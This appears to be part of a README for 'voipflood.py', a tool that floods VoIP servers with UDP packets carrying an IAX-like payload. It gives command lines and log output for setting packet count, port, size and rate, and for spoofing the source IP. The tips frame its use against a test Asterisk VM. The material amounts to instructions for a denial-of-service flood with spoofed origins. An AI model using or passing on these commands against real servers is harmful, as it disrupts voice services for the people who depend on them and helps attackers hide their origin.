 ### Using Each Feature

#### 1. Sending Packets
**What It Does**: Sends UDP packets with an IAX-like payload to a target.
**How to Use**:
1. Send 100 packets to a VoIP server:
   ```bash
   python3 voipflood.py 192.168.1.100 -c 100
   ```
2. Use a different port:
   ```bash
   python3 voipflood.py 192.168.1.100 -p 5060 -c 50
   ```
**What Happens**:
- Packets are sent and logged to `voipflood.log` and a results file:
  ```
  2025-05-15 10:30:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=100, Rate=0.01s
  2025-05-15 10:30:01 - Sent packet 1 to 192.168.1.100:4569, 100 bytes
  ...
  2025-05-15 10:30:03 - Sent 100 packets. Results saved to voipflood_results_20250515_103003.txt
  ```
- Results file example:
  ```
  [2025-05-15 10:30:01] Sent to 192.168.1.100:4569, 100 bytes
  ...
  ```
**Tips**:
- Set up a test VoIP server (e.g., Asterisk on a VM) to receive packets.
- Use a small `count` for quick tests.

#### 2. Customizing Packet Size and Rate
**What It Does**: Adjusts the size of packets and the sending rate.
**How to Use**:
1. Send larger packets:
   ```bash
   python3 voipflood.py 192.168.1.100 -s 200 -c 50
   ```
2. Slow down the rate:
   ```bash
   python3 voipflood.py 192.168.1.100 -r 0.1 -c 20
   ```
**What Happens**:
- Packets are sent with the specified size and rate:
  ```
  2025-05-15 10:35:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=50, Rate=0.01s
  2025-05-15 10:35:01 - Sent packet 1 to 192.168.1.100:4569, 200 bytes
  ```
**Tips**:
- Larger packets (`-s`) increase traffic; smaller rates (`-r`) slow sending.
- Test different combinations to observe server behavior.

#### 3. Using a Source IP
**What It Does**: Sends packets from a specific source IP.
**How to Use**:
1. Specify a source IP:
   ```bash
   sudo python3 voipflood.py 192.168.1.100 -i 192.168.1.200 -c 50
   ```
**What Happens**:
- Packets appear to come from the source IP:
  ```
  2025-05-15 10:40:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=50, Rate=0.01s
  2025-05-15 10:40:01 - Sent packet 1 to 192.168.1.100:4569, 100 bytes
  ```
**Tips**:
- Use `sudo` for binding to a source IP.
- Ensure the source IP is valid on your network.